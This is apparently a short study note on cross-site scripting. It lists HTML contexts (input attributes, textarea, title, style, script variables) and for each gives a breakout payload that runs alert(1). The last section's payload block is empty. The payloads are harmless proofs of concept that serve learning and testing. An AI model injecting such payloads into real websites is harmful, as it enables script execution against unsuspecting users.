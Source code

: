 ____

# Basic XSS

```html
<script>alert("1")</script>
```

![[Pasted image 20241120124025.png]]

# Escaping Context

## Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```

![[Pasted image 20241120125055.png]]

```html
" onmouseover=alert(1);//
```

![[Pasted image 20241120125551.png]]

## Textarea

```html
<textarea>test</textarea>
```

```html
</textarea><script>alert(1)</script>
```

![[Pasted image 20241120131231.png]]

## Title

```html
<title>Welcome, test</title>
```

```html
</title><script>alert(1)</script>
```

## Style

```html
<style>
        body {
            background-color: test;
        }
    </style>
```

```html
</style><script>alert(1)</script>
```

## Javascript variables

```html
<script>
var name = 'test'; $('span#name').html( name );
</script>
```

```html

```
![[Pasted image 20241120133508.png]]